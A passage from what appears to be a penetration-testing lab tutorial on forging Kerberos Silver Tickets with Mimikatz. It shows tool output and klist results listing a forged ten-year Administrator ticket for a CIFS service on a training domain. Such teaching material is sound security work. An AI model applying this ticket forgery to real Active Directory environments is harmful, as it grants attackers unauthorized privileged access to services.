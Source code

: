 	Final Ticket Saved to file !
	
	
![Silver Ticket Mimikatz](/Silver-Ticket/images/Silver-Ticket-Mimikatz.png) 



As we can see on the last line, the Silver Ticket has been created and submitted for the current session. Mimikatz calls it a Golden Ticket, but it's a TGS ticket that was generated, so it is a Silver Ticket. We can double-check this using the **klist** utility. 


## Reviewing the Tickets with klist



	PS C:\> klist
	 
	Current LogonId is 0:0x75d28

	Cached Tickets: (1)

	0>     Client: Administrator @ inlanefreight.local
		   Server: cifs/sql01.inlanefreight.local @ inlanefreight.local
		   KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
		   Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
		   Start Time: 1/15/2024 8:51:15 (local)
		   End Time:   1/12/2034 8:51:15 (local)
		   Renew Time: 1/12/2034 8:51:15 (local)
		   Session Key Type: RSADSI RC4-HMAC(NT)
		   Cache Flags: 0
		   Kdc Called:
